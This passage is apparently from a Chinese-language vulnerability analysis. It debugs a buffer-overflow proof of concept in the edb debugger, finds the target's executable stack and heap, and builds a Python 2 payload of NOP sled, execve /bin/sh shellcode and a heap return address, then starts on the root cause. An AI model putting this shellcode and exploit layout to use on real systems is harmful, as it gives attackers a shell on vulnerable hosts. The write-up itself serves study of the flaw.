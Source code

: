 说明，在 0x08049aef 处 call 0x0804bfec 出错

**（3）、继续定位**
再次使用 edb 命令调试，并在 0x80049aef 处下断点，进入函数内部执行。
 - 在 0x08049aef 处下断点
 - F10 运行程序
 - 再次 F10 运行到断点处
 - F7 进入函数内部
 - F8 一路单步执行，直到函数返回前
    ![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f2coqxiumij30ka0eswkh.jpg)

**（4）、首次试验**
![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f2cox4ej37j30jo09mgn1.jpg)
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f2cowdm9vqj30jm09o0uf.jpg)

才发现，这个程序的栈、堆都是可执行的，简直不能忍！！！！！

ip_addr 换成 shellcode 起始地址 0xbffff34f。
nops(251) + payload + 0xbffff34f
可是发现执行出断错。因为执行shellcode之后，程序继续没有正常退出，继续执行，会报错。

### 3、查看堆
既然栈和堆都是可执行的，payload 在栈中，执行不成功，查看堆。
原始 POC 中的 ip_addr = 0x080573bc也在堆中，查看此地址附近的堆内容。

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f2crn7qyqrj30jx0ct79v.jpg)

ip_addr = 0x080573bc 正好是 shellcode 在堆中的起始地址。

OK，shellcode 构造好了。
```
#!/usr/bin/env python2

p = ''
p += "\x90" * 251
p += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
p += "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
p += "\x80\xe8\xdc\xff\xff\xff/bin/sh"

p += "\xbc\x73\x05\x08"

print p
```

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f2crrxgenlj30k8051wgb.jpg)

分析到此处，对于了解缓冲区溢出的人，都能理解 exploit db 中 POC 的构成了。
以下是分析漏洞成因。

# IV、漏洞成因
堆和栈中都有 shellcode 
shellcode 在堆中的起始地址：0x080573bc
在栈中的起始地址：0xbffff5bc

